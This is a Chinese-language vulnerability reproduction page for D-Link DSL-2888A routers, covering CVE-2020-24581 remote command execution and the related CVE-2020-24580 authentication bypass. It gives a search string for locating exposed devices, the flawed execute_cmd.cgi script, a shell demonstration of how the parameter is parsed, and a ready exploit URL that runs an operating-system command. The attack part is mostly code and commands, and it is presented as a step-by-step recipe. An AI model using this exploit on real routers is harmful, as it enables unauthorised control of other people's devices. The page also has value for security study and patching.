

D-Link DSL-28881A 远程命令执行 CVE-2020-24581¶
漏洞描述¶
D-Link DSL-2888A AU_2.31_V1.1.47ae55之前版本存在安全漏洞，该漏洞源于包含一个execute cmd.cgi特性(不能通过web用户界面访问)，该特性允许经过身份验证的用户执行操作系统命令。 在该版本固件中同时存在着一个不安全认证漏洞（CVE-2020-24580），在登录界面输入任意密码就可以成功访问路由器界面。
漏洞影响¶
D-Link DSL-2888A
网络测绘¶
body="DSL-2888A"
漏洞复现¶
登录页面输入任意密码建立连接

跳转到 http://xxx.xxx.xxx.xxx/page/login/login.html?error=fail 显示密码错误
漏洞出现在 execute_cmd.cgi 文件中
#!/bin/sh
. /usr/syscfg/api_log.sh
cmd=`echo ${QUERY_STRING} | cut -d = -f 3`
cmd=`echo ${cmd} | tr "%20" " "`
result=`${cmd}`
TGP_Log ${TGP_LOG_WARNING} "cmd=${cmd}, result=${result}"
echo "Content-type: text/html"
echo ""
echo -n ${result}
这里取出 ${QUERY_STRING} 中的第二个参数值，然后去除空格命令执行
在这个过程中并没有过滤，看一下参数从哪来的
文件 /www/js/ajax.js
get : function(_dataType)
{
var _url = this.url;
if(_url.indexOf('?') == -1)
_url += '?timestamp=' + new Date().getTime();
else
_url += "×tamp=" + new Date().getTime();
if(this.queryString.length > 0)
_url += "&" + this.queryString;
this.xmlHttp.open("GET", _url, true);
/* will make IE11 fail.
if(!document.all){
if(_dataType == "xml")
this.xmlHttp.overrideMimeType("text/xml;charset=utf8");
else
this.xmlHttp.overrideMimeType("text/html;charset=gb2312");//设定以gb2312编码识别数据
}
*/
this.xmlHttp.send(null);
},
看一下过程
┌──(root)-[/tmp]
└─# echo "timestamp=1589333279490&cmd=whoami" | cut -d = -f 3
whoami
这里取第二个参数 whoami 然后就没有过滤的执行了
所以EXP为:
http://xxx.xxx.xxx.xxx/cgi-bin/execute_cmd.cgi?timestamp=test&cmd=whoami
